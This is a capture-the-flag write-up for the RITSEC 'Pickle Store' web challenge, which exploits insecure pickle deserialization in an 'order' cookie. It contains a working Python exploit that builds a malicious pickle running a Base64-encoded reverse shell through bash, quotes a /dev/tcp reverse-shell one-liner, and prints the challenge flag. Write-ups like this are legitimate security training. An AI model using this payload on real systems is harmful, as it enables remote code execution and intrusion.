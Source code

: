 # Pickle Store
> New pickles just dropped! Check out the store.

> https://pickles-web.challenges.ctf.ritsec.club/

## About the Challenge
We have been given a website that has a functionality to order a pickle

![preview](images/preview.png)

## How to Solve?
If we see the request, there is a cookie called `order` and the value is Base64 encoded message. When I first saw the cookie, the first thing that comes to my mind was `Pickle Insecure Deserialization to RCE`

![request](images/request.png)

And then I tried to do some research about that vulnerability and I got this script to exploit that vulnerability

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('echo "BASE64_REVERSE_SHELL" | base64 -d | bash')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

Why should I encode the command first using Base64 instead of directly using `/bin/sh -i >& /dev/tcp/IP/PORT 0>&1`? That's because I can't do a reverse shell if I'm using that command.

Run the script and then change the value of the cookie with the output of the script. And then to obtain the flag, try to read `/flag` file

![flag](images/flag.png)

```
RS{TH3_L345T_53CUR3_P1CKL3}
```